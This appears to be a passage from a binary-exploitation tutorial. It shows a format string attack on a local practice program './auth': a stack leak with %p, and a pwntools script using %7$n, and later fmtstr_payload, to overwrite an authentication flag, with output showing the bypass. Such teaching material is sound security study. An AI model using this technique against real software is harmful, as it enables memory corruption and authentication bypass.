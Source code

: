 Location of `auth` is `0x0804c028`.

#### Writing the Exploit

We're lucky there's no null bytes, so there's no need to change the order.

```text
$ ./auth 

Password: 
%p %p %p %p %p %p %p %p %p
0x64 0xf7f9f580 0x8049199 (nil) 0x1 0xf7ff5980 0x25207025 0x70252070 0x20702520
```

Buffer is the 7th `%p`.

```python
from pwn import *

AUTH = 0x804c028

p = process('./auth')

payload = p32(AUTH)
payload += b'|' * 6         # We need to write the value 10, AUTH is 4 bytes, so we need 6 more for %n
payload += b'%7$n'


print(p.clean().decode('latin-1'))
p.sendline(payload)
print(p.clean().decode('latin-1'))
```

And easy peasy:

```text
[+] Starting local process './auth': pid 4045
Password: 

[*] Process './auth' stopped with exit code 0 (pid 4045)
(À\x04||||||
Auth is 10
Authenticated!
```

### Pwntools

As you can expect, pwntools has a handy feature for automating `%n` format string exploits:

```python
payload = fmtstr_payload(offset, {location : value})
```

The `offset` in this case is `7` because the 7th `%p` read the buffer; the location is **where** you want to write it and the value is **what**. Note that you can add as many location-value pairs into the dictionary as you want.

```python
payload = fmtstr_payload(7, {AUTH : 10})
```

You can also grab the location of the `auth` symbol with pwntools:

```python
elf = ELF('./auth')
AUTH = elf.sym['auth']
```

> Check out the pwntools tutorials for more cool features

